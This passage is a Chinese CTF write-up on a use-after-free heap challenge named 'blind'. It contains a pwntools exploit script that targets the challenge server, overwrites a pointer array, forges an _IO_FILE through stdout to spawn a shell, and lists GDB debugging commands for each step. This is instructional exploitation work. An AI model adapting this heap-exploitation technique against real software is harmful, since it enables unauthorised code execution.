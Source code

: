 一般到这里，就直接放 POC，但是一大段 pwntool 编写的 POC 对初学者很不友好。我将贴出关键的代码，并使用 GDB 调试 blind 程序详细深入的观察每一步到底对程序产生了怎样的影响，最终给出完整的 POC。

```python
# 特别感谢凝聚网络安全工作室的大佬们给的 exploit 脚本，这也是我用于解决本次 uaf 题目的模板！
# 再次致谢！
p = remote('106.75.20.44', 9999)
# p = process('./blind')
stdout = 0x602020        # 指定 stdout 的位置，之后我们需要修改这个指针指向我们的伪造的 _IO_FILE
ptr_base = 0x602060      # ptr 的起始地址，是一个指针数组，每个元素用于指向分配的一个堆地址
system_bin_sh = 0x4008E3 # GetShell 的恶意函数位置
field = 0x602100         # 伪造的 _IO_FILE 存放地址
s = [0, 0, 0, field+0x100] 
# ------------------------------- 攻击链的实现
new(p, 0, '')            
release(p, 0)
change(p, 0, p64(0x602045 ‐ 0x8))
new(p, 1, '')
payload = 'a'*0x13 + p64(ptr_base) \
+ p64(field) \
+ p64(field+0x70) \
+ p64(field+0xc0) \
+ p64(field+0x100) \
+ p64(stdout)
payload = payload.ljust(0x60, '\x00')
new(p, 5, payload)
change(p, 1, '')
change(p, 2, flat(s))
change(p, 3, flat(s))
change(p, 4, p64(0)*7 + p64(system_bin_sh))
change(p, 5, p64(field))
p.interactive()
```

下面将用 GDB 调试程序，并且展示一些关键位置的情况，我们关心的位置对照表如下：

| 地址（由低到高）  |                  描述                   |
| :---------------: | :-------------------------------------: |
|  0x602020(.bss)   |           stdout 指针存放地址           |
|  0x602040(.bss)   |          stderr 指针存放的地址          |
|  0x602060(.bss)   | ptr 指针数组的起始地址（ptr[0]~ptr[5]） |
| 0x602100(.extern) |             伪造的 _IO_FILE             |

我们从代码 “攻击链”实现部分开始，一步步展示攻击在 GDB 中的具体细节。

```shell
b *0x400C5D 
x /6xg 0x602060   查看 ptr[0-5] 内容
x /16xg 0x603000  查看  ptr[0] 的 chunk
pstdio data /x \\x02\\x03\\x04\\x05  输入 '\x02\x03\x04\x05'
```
